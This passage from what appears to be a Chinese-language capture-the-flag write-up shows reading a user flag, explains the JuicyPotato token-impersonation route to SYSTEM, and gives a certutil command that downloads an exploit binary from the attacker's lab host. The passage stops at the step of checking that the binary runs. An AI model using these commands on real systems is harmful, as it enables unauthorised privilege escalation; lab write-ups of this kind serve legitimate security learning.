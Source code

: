 有了这个访问权限，我现在可以读取 user.txt 了

![](img/f0653c64c6a2321f1d0b285adb2b2018.png)

```
C:\Users\userpool>type Desktop\user.txt
type Desktop\user.txt
34459a01f50050dc410db0...
```

## 权限提升:

我选择了使用 JuicyPotato 的非预期路线。JuicyPotato 是另一个本地权限提升工具，从 Windows 服务帐户到 NT AUTHORITY\SYSTEM。它基于 RottenPotato，其背后的理论根据页面[https://fogloversecurity . com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)为:

1.  诱骗“NT AUTHORITY\SYSTEM”帐户通过 NTLM 向我们控制的 TCP 端点进行身份验证。
2.  中间人身份验证尝试(NTLM 中继)在本地协商“NT AUTHORITY\SYSTEM”帐户的安全令牌。这是通过一系列 Windows API 调用完成的。
3.  模拟我们刚刚协商好的令牌。只有当攻击者的当前帐户拥有模拟安全令牌的权限时，才能做到这一点。这通常适用于大多数服务帐户，而不适用于大多数用户级帐户。

JuicyPotato 可以在这里找到:【https://github.com/ohpe/juicy-potato 

我首先将二进制文件传输到一个我可以写入的目录，使用 certutil 传输它:

```
C:\Users\userpool\Music>certutil.exe -urlcache -split -f [http://10.10.14.81/j.exe](http://10.10.14.81/j.exe) j.exe
```

检查它是否可以运行:

![](img/4c26b744a966009b371ec2915d4b000c.png)
